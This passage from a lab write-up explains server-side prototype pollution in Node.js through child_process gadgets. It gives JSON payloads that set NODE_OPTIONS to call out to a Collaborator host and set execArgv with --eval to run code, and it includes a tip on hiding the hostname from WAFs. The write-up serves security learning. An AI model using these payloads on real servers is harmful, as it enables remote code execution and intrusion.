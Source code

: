 As you can see, in the **raw** response JSON data, it has 1 space for the identation! That being said, it's indeed vulnerable to server-side prototype pollution.

### Identify a gadget that you can use to inject and execute arbitrary system commands

In the admin panel, we can run maintenance jobs, which are ***database and filesystem cleanup***.

Database and filesystem cleanup... This got me thinking **it's using OS command to complete that**!

There are a number of potential command execution sinks in Node, many of which occur in the `child_process` module. These are often invoked by a request that occurs asynchronously to the request with which you're able to pollute the prototype in the first place. As a result, the best way to identify these requests is by polluting the prototype with a payload that triggers an interaction with Burp Collaborator when called.

The `NODE_OPTIONS` environment variable enables you to define a string of command-line **arguments** that should be used by default whenever you start a new Node process. As this is also a property on the `env` object, you can potentially control this via prototype pollution if it is undefined.

Some of Node's functions for creating new child processes accept an optional `shell` property, which enables developers to set a specific shell, such as bash, in which to run commands. By combining this with a malicious `NODE_OPTIONS` property, you can pollute the prototype in a way that causes an interaction with Burp Collaborator whenever a new Node process is created:

```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

This way, you can easily identify when a request creates a new child process with command-line arguments that are controllable via prototype pollution.

> Tip:
>  
> The escaped double-quotes in the URL aren't strictly necessary. However, this can help to reduce false positives by obfuscating the URL to evade WAFs and other systems that scrape for hostnames.

Moreover, methods such as `child_process.spawn()` and `child_process.fork()` enable developers to create new Node subprocesses. The `fork()` method accepts an options object in which one of the potential options is the `execArgv` property. This is an array of strings containing command-line arguments that should be used when spawning the child process. If it's left undefined by the developers, this potentially also means it can be controlled via prototype pollution.

As this gadget lets you directly control the command-line arguments, this gives you access to some attack vectors that wouldn't be possible using `NODE_OPTIONS`. Of particular interest is the `--eval` argument, which enables you to pass in arbitrary JavaScript that will be executed by the child process. This can be quite powerful, even enabling you to load additional modules into the environment:

```json
"execArgv": [
    "--eval=require('<module>')"
]
```

